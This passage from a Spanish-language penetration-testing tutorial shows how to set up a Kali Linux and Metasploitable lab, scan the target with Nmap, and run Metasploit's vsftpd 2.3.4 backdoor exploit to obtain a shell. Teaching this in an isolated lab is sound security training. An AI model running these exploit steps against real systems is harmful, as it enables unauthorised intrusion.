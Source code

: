 2. **Verificación de conectividad**: Puedes verificar que las máquinas virtuales se comunican entre sí utilizando el comando `ping` desde la terminal de Kali:
   ```bash
   ping <IP de Metasploitable>
   ```
   Si obtienes una respuesta, significa que las máquinas están configuradas correctamente y pueden interactuar entre sí en la red interna.

#### **7.6. Ejemplo práctico: Ataque en un laboratorio controlado**
Ahora que tienes un laboratorio de pruebas configurado, hagamos un ejercicio práctico utilizando Nmap y Metasploit para descubrir y explotar vulnerabilidades en Metasploitable.

##### **Paso 1: Escaneo de red con Nmap**
Inicia la máquina virtual Kali Linux y ejecuta Nmap para escanear Metasploitable. Supongamos que la IP de Metasploitable es `192.168.56.101`. Puedes ejecutar el siguiente comando para detectar los servicios y puertos abiertos:
```bash
nmap -sV 192.168.56.101
```
Este comando te mostrará los puertos abiertos y los servicios que se están ejecutando en la máquina Metasploitable.

##### **Paso 2: Explotación con Metasploit**
Con la información obtenida de Nmap, puedes seleccionar una vulnerabilidad conocida y explotarla con Metasploit. Por ejemplo, si descubres que Metasploitable tiene el servicio **vsftpd** vulnerable (puerto 21), puedes usar el siguiente exploit en Metasploit:

1. Inicia Metasploit en Kali Linux:
   ```bash
   msfconsole
   ```

2. Carga el exploit para **vsftpd**:
   ```bash
   use exploit/unix/ftp/vsftpd_234_backdoor
   ```

3. Configura la dirección IP del objetivo:
   ```bash
   set RHOST 192.168.56.101
   ```

4. Ejecuta el exploit:
   ```bash
   exploit
   ```

Si el exploit tiene éxito, obtendrás acceso a una shell en el sistema Metasploitable.

#### **7.7. Beneficios de un laboratorio virtual**
- **Práctica sin riesgos**: Puedes realizar pruebas sin afectar a redes reales ni infringir leyes.
- **Entorno controlado**: Puedes replicar escenarios de vulnerabilidades y soluciones.
- **Simulación de ataques reales**: Practicar ataques en entornos reales te prepara para situaciones del mundo real, como pruebas de penetración en organizaciones.

--------------------------------------------------------------------------------------------------------------
